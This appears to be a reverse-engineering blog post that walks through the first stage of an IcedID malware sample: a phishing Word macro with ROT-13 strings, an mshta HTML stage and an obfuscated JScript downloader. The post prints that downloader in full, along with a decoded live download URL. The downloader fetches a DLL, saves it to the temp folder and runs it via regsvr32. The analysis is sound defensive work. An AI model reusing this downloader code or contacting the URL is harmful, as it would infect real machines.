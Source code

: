 ```yaml
---
layout: post
title: "Analysing IcedId: The macro and Mshta"
summary: "Analysing the macro and Mshta in the docx file"
date:   2020-09-05 17:40:00 -0400
categories: Reverse engineering
---
```


# Analysing IcedID malware

## Context
I was looking up for a malware to analyse just for fun. One day, I've saw a post on twitter from [Suspicious Link](https://twitter.com/reecdeep/status/1300432198135418880), when there was a link to the [app.any.run](https://app.any.run/tasks/d52f66be-14f1-47fc-ad3b-77c89c0e2b77/) sample. I thought it would be an opportunity to check out the sample. I'll describe in future posts the analysis. This first part is quite incomplete as the macro and the Mshta are really simple - I was expecting more work to do.

The md5 hash file is `87e3a3829c723650bea2110ea75a43cd`.

## Casual phishing
By opening the `doc` file, we are greeted with the classic "Please run the macro". Let's just dive into the macro.

## Lolz at the encoding
When looking at the strings in the macro, we can see at least three that catch the eye.

``` vb
Public Const al9h8L As String = "p_:_\_j_v_a_q_b_j_f_\_f_l_f_g_r_z_3_2_\_z_f_u_g_n_._r_k_r_"
Public Const as2QC As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._p_b_z_"
Public Const akJ8O5 As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._u_g_z_y_"
```

Using our experimented ctfs skills, we can guess a ROT encoding.

```
c_:_\_w_i_n_d_o_w_s_\_s_y_s_t_e_m_3_2_\_m_s_h_t_a_._e_x_e_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._c_o_m_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._h_t_m_l_
```

And it is indeed a ROT-13 encoding. From this point, another wild guess is the macro will create a `html` file and will execute `mshta` on that file, probably dropping another file on the filesystem. There's a big blob of text in the `UserForm1`, starting with `<!QBPGLCR`, which again translates to `DOCTYPE` using the rot-13. We can get the content and translate it using our vim foo, `g?`.

## Quick and dirty mshta analysis

_Reversing_ the `html` file can be done within minutes. I'll explain how I did it, and a more thorough analysis will follow some day.

There's `p` element containing what seems to be a hex encoded blob, starting with

``` html
<p id="content">616e75637272416e756372725[...]</p>
```

This blob should be used somewhere, and we can follow the reference. Another thing is that there's only one function in the JavaScript, and it only converts a string passed in parameter.

``` js
function aQp7I(aXmFa)
{
        var al3VX = "";
        for(var a8tBHG = 0; a8tBHG < aXmFa.length; a8tBHG += 2)
        {
                al3VX += String.fromCharCode(parseInt(aXmFa.substr(a8tBHG, 2), 16));
        }
        return(al3VX);
}
```

By adding a `console.log(al3VX);` right before the `return`, one can get the output of the function.


By following the `content` tag, we will first get to `var aGml5p = document.getElementById("content");`. Following the `aGml5p` variable, we get to `amqBO.RegWrite(a8X0v, aGml5p.innerHTML, "REG_SZ");`. So, the file will create a registry key and put the value of `content` in it. Following references to `amqBO` lead to `a8fnhv = amqBO.RegRead(a8X0v)`. This can be simplified as `a8fnhv = content`.

Next, `a8fnhv = aQp7I(a8fnhv);`. Our function is called! What happens next: `a8fnhv = a8fnhv.replace(/nucrr/ig, "");`, then `var azKf2 = new Function("u", "c", a8fnhv);`. Let's see what's the result of the content after being passed to the `aQp7I` function and after the regex removes some `nucrr` occurrences.

``` js
aAT1V6 = true;var avN2J = "aBUo3";var aZAeCP = avN2J.length;function ar9sv(ahf1a){var avFW1R = "";for(var axF8yP = 0; axF8yP < ahf1a.length; axF8yP += 2){avFW1R += String.fromCharCode(parseInt(ahf1a.substr(axF8yP, 2), 16));}return(avFW1R);}var aqNek = true;aFM47o = false;akS0L = 30444;function a2uAHR(avFW1R){return(avFW1R.split("").reverse().join(""));}var aAgDpY = -38781;var a8D1v = 47284;var ae2PS = 12708;aZacTF = "anUX4L";a5WNsd = aZacTF.toLowerCase();var avAZG = new ActiveXObject("msxml2.xmlhttp");var aZHhk = -12863;var apgUz = true;var aGnoB = new ActiveXObject("adodb.stream");var aFqyH = "aiXJ3";a8Nh59 = aFqyH.toUpperCase();aYdVD = true;apeFM = -58349;am5UGu = true;var arfAe = new ActiveXObject("wscript.shell");aLzZH7 = "aiPOsk";a0zBvV = aLzZH7.toUpperCase();avc2fk = "aG2REl";var aLhWt = avc2fk.toUpperCase();advOnm = arfAe.expandenvironmentstrings("%temp%");var a4btjU = "aSbLM";arpdw4 = true;var a72X8Q = -9230;a1TIE = "ackdmA";aDyvj = a1TIE.length;aqzl3 = -10026;var a7bNS = true;var aWI9yB = -30060;asC6iW = advOnm + String.fromCharCode(92) + "temp.tmp";aH3r4a = 6567;var aTrpB8 = 29087;a7fBn = "azidx0";var auyeo = a7fBn.length;aWg3M5 = "aga8Eq";var aeoOT = aWg3M5.toString();u = a2uAHR(u);u = ar9sv(u);amgJz = "ab3kae";var aq6RX4 = 27911;a4XbQ = false;alWXi4 = 17174;var aomJe = false;avAZG.open("GET", u, 0);a56hyl = "aAUEH";a5fQJ = a56hyl.toString();ay7M0 = 42712;avAZG.send();var aSWdj = true;aBmLaY = false;var aGtzeA = true;amycHJ = 57325;if(avAZG.status == 200 && avAZG.readystate == 4){aVKxoP = "a6EcBb";a9Ahm = true;aghV4 = 25593;aGnoB.open();var aoT0lb = "ao9alG";var atEXd = aoT0lb.toLowerCase();aGFh46 = "awHIaN";aZQG4x = true;aGnoB.type = 1;var akhf1r = -60377;var a5bTI4 = "aEtViT";a0PURS = a5bTI4.toLowerCase();aqPVoX = 37966;aGnoB.write(avAZG.responsebody);var aLcXn = "aqaMj";var aiJeY = aLcXn.toLowerCase();var akGjxP = "aq6hR";var aQYR4 = akGjxP.toString();aGnoB.savetofile(asC6iW, 2);aE7YPR = "aCAn4";var aJzQTj = aE7YPR.toLowerCase();var aIwRn = true;var aymPM = "aZX5cz";ayTmvz = aymPM.length;var aAB9zw = 33034;aGnoB.close();}var aKIfHa = 23124;ae8Er = false;aHWAg9 = 23639;axmdR = -55362;var aTcA8 = "azwPNu";var a783M = false;aNYIum = 42243;aK5rL = "auSLK";var an6T32 = aK5rL.toString();arfAe.run("regsvr32 " + asC6iW);a4B5z = "a57uH";var a2iHw = a4B5z.toLowerCase();aFWqP = 51428;var a0n1U = -21061;
```

Quickly, we can assume a HTTP request will be made, because of the `var avAZG = new ActiveXObject("msxml2.xmlhttp");`. It might also execute a PE file using the `arfAe.run("regsvr32 " + asC6iW)`. We can beautify the new JavaScript blob and read it. Two functions exist, and both are easy to understand:

``` js
function ar9sv(ahf1a) {
	var avFW1R = "";
	for (var axF8yP = 0; axF8yP < ahf1a.length; axF8yP += 2) {
		avFW1R += String.fromCharCode(parseInt(ahf1a.substr(axF8yP, 2), 16));
	}
	return (avFW1R);
}
```


``` js
function a2uAHR(avFW1R) {
	return (avFW1R.split("").reverse().join(""));
}
```

As the JavaScript code is only a hundred long lines, let's check out where `avAZG` is used. `avAZG.open("GET", u, 0);`, and what is the `u` variable? `u = a2uAHR(u); u = ar9sv(u);`. `u` seems to be undefined. Let's go back to the other html part. `var azKf2 = new Function("u", "c", a8fnhv);`. Good! Where is `azKf2` used? `azKf2("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786", 0);`. Now, let's just manually pass `261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786` to `azKf2` as such, and then run the JavaScript code:

``` js
u = a2uAHR("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786");
u = ar9sv(u);
console.log(u);
```

``` bash
$ js test.js 
http://qzxrqi.com/sapad/huwu.php?l=molef10.cab
```

And we got our next file! 

``` bash
$ file molef10.cab
molef10.cab: PE32 executable (DLL) (GUI) Intel 80386, for MS Window
```

Now shall start the fun!
